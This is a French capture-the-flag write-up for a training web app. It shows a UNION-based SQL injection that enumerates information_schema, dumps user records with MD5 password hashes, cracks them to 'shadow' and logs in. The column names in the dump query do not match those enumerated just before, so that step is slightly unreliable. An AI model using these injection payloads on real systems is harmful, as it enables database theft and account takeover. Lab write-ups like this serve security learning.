 `ip`/index.php?page=member

Note: tous les codes suivants ont été insérés dans l'input liée au submit.

si on submit vide, on obtient:
*You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' at line 1*

En testant `1 OR 2`, on constate qu'une requete SQL est donc possible :
Voici notre bible pour ce flag : *http://www.sqlinjection.net/column-names/*

`TRUE` permet de valider l'expression précédente. `UNION` permet de coupler les résultats d'une première requête avec une seconde dont les composantes doivent être les mêmes.

`TRUE UNION SELECT table_schema, table_name FROM information_schema.tables`
Notamment, la table:


table_schema: Member_Brute_Force
table_name: db_default

`TRUE UNION SELECT table_name, column_name FROM information_schema.columns`
Notamment:
table_name: db_default
column_name: username
column_name: password

Ce qui permet de rechercher 2 par 2 (étant limités par l'UNION) les résultats pour chaques colonnes de la table users:
`TRUE UNION SELECT last_name, countersign FROM Member_Brute_Force.db_default`
Nous obtenons pour les utilisateurs suivants :
```
username: root
password: 3bf1114a986ba87ed28fc1b5884fc2f8

username: admin
password: 3bf1114a986ba87ed28fc1b5884fc2f8
```

soit en décrypté (md5): *shadow* (les 2 sont les mêmes). En allant sur la page de login (*`ip`/index.php?page=signin*), et en testant les combinaisons trouvées, nous retombons sur le flag !